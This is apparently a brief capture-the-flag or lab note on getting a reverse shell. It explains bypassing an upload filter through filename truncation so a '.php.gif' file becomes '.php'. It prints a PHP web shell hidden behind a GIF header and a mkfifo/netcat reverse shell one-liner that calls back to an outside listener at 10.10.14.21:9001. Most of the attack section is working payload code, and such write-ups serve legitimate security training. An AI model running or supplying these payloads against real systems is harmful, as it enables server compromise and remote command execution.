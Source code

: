 # Getting a Reverse Shell

### Bypassing the upload filter
Filter has a limite of 232 characteres. Upload a file with 236 with the extensions .php.gif
The Server will filter and shorter the char on name file, removing the .gif

* Upload file and content
```bash
$ cat AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif 
GIF8;
<?php system($_REQUEST['kawai']); ?>
```
![[Pasted image 20211126075453.png]]

![[Pasted image 20211126075517.png]]


### Payload for reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 9001 >/tmp/f
```
![[Pasted image 20211126075616.png]]

![[Pasted image 20211126075705.png]]